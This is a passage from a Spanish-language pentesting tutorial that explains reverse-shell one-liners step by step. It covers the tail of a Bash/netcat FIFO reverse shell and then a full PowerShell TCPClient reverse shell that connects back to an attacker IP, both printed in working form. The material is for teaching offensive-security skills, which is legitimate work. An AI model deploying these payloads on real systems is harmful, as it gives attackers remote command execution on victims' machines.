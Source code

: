 Concatena el archivo de pipe FIFO `/tmp/f`. La tubería (|) conecta la salida estándar de `cat /tmp/f` con la entrada estándar del comando que viene después de la tubería.

### **4. Establecer Opciones del Shell**

```bash
/bin/bash -i 2>&1 |
```

Especifica el intérprete de comandos, usando la opción `-i` para asegurar que la shell sea interactiva. `2>&1` redirige el flujo de datos de error estándar (2) y el flujo de datos de salida estándar (1) al comando que sigue después de la tubería.

**5. Abrir una Conexión con Netcat**

```bash
nc 10.10.14.12 7777 > /tmp/f
```

Usa Netcat para enviar una conexión a nuestro host de ataque en `10.10.14.12` que escucha en el puerto `7777`. La salida será redirigida (`>`) a `/tmp/f`, sirviendo la shell Bash a nuestro listener de Netcat cuando se ejecute el comando de shell inversa.

## PowerShell One-liner Explicado

Los shells y payloads que elegimos usar dependen en gran medida del sistema operativo (OS) que estamos atacando. Debemos tener esto en cuenta a lo largo del módulo. Vimos esto en la sección de shells inversas al establecer una shell inversa con un sistema Windows usando PowerShell. Vamos a desglosar el one-liner que usamos:

### **One-liner de PowerShell**

```powershell
powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.10.14.158',443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```

Desglosaremos este gran comando de PowerShell. Puede parecer mucho, pero intentemos desmitificarlo.´

### **Ejecutando PowerShell**

```powershell
powershell -nop -c 
```

Ejecuta `powershell.exe` sin perfil (`nop`) y ejecuta el bloque de comandos o script contenido en las comillas (-c). Este comando en particular se emite dentro del símbolo del sistema (cmd.exe), por lo que PowerShell está al principio del comando. Es útil saber cómo hacer esto si encontramos una vulnerabilidad de ejecución remota de código (RCE) que nos permita ejecutar comandos directamente en `cmd.exe`.
